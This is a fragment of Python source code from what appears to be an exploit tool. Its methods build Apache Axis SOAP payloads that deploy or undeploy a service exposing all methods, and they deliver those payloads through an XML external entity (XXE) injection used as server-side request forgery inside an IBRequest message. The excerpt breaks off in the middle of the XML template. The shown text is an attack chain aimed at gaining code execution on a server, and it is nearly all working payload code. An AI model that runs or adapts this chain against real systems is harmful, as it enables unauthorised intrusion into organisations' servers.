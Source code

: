 ```
        return payload

    def psoap(self, payload):
        """Converts a SOAP payload into a one-liner, including the comment trick
        to allow attributes.
        """
        payload = self.pxml(payload)
        payload = '!--&gt;%s' % payload[:-1]
        return payload

    def soap_service_deploy(self):
        """SOAP payload to deploy the service.
        """
        return """
        &lt;ns1:deployment xmlns="http://xml.apache.org/axis/wsdd/"
        xmlns:java="http://xml.apache.org/axis/wsdd/providers/java"
        xmlns:ns1="http://xml.apache.org/axis/wsdd/"&gt;
            &lt;ns1:service name="%s" provider="java:RPC"&gt;
                &lt;ns1:parameter name="className" value="%s"/&gt;
                &lt;ns1:parameter name="allowedMethods" value="*"/&gt;
            &lt;/ns1:service&gt;
        &lt;/ns1:deployment&gt;
        """ % (self.service_name, CLASS_NAME)

    def soap_service_undeploy(self):
        """SOAP payload to undeploy the service.
        """
        return """
        &lt;ns1:undeployment xmlns="http://xml.apache.org/axis/wsdd/"
        xmlns:ns1="http://xml.apache.org/axis/wsdd/"&gt;
        &lt;ns1:service name="%s"/&gt;
        &lt;/ns1:undeployment&gt;
        """ % (self.service_name, )

    def xxe_ssrf(self, payload):
        """Runs the given AXIS deploy/undeploy payload through the XXE.
        """
        data = """
        &lt;?xml version="1.0"?&gt;
        &lt;!DOCTYPE IBRequest [
        &lt;!ENTITY x SYSTEM "%s"&gt;
        ]&gt;
        &lt;IBRequest&gt;
           &lt;ExternalOperationName&gt;&amp;x;&lt;/ExternalOperationName&gt;
           &lt;OperationType/&gt;
           &lt;From&gt;&lt;RequestingNode/&gt;
              &lt;Password/&gt;
              &lt;OrigUser/&gt;
              &lt;OrigNode/&gt;
              &lt;OrigProcess/&gt;
              &lt;OrigTimeStamp/&gt;
           &lt;/From&gt;
           &lt;To&gt;
              &lt;FinalDestination/&gt;
              &lt;DestinationNode/&gt;
              &lt;SubChannel/&gt;
           &lt;/To&gt;
           &lt;ContentSections&gt;
              &lt;ContentSection&gt;
                 &lt;NonRepudiation/&gt;
                 &lt;MessageVersion/&gt;
                 &lt;Data&gt;
                 &lt;/Data&gt;
```